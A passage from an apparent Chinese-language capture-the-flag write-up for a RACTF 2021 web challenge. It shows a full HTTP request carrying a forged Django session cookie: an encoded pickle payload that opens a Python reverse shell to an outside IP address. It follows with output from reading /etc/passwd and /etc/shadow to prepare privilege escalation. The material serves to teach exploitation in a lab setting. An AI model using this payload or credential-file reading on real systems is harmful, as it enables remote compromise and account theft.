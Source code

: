 

一个很大的坑点就是，这个session要在linux下生成，windows生成的不对，坑了我好久呜呜呜。

然后直接请求就可以反弹shell了：

```http
GET / HTTP/1.1
Host: 193.57.159.27:49078
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://193.57.159.27:49078
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://193.57.159.27:49078/new/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie:sessionid=gANjcG9zaXgKc3lzdGVtCnEAWNIAAABweXRob24gLWMgJ2ltcG9ydCBzb2NrZXQsc3VicHJvY2VzcztzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMTguMzEuMTY4LjE5OCIsMzk4NzYpKTtzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSxzdGRpbj1zLmZpbGVubygpLHN0ZG91dD1zLmZpbGVubygpLHN0ZGVycj1zLmZpbGVubygpKSdxAYVxAlJxAy4:1mGJbx:xsuOk_HfrnmF1eTgZpadluH3SIYC7YLhKioVt3YBQLA
Connection: close


```



拿到shell发现`/flag.txt`没权限读：

![image-20210818195722377](RACTF 2021 Web复现.assets/image-20210818195722377.png)

这里需要提权。读`/etc/passwd`发现多了个admin用户，而且`/etc/shadow`同样可以读：

```shell
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
admin:x:1000:1001::/home/admin:/bin/bash
web:x:999:999::/home/web:/bin/bash
$ cat /etc/shadow
root:*:18829:0:99999:7:::
daemon:*:18829:0:99999:7:::
bin:*:18829:0:99999:7:::
sys:*:18829:0:99999:7:::
sync:*:18829:0:99999:7:::
games:*:18829:0:99999:7:::
man:*:18829:0:99999:7:::
lp:*:18829:0:99999:7:::
```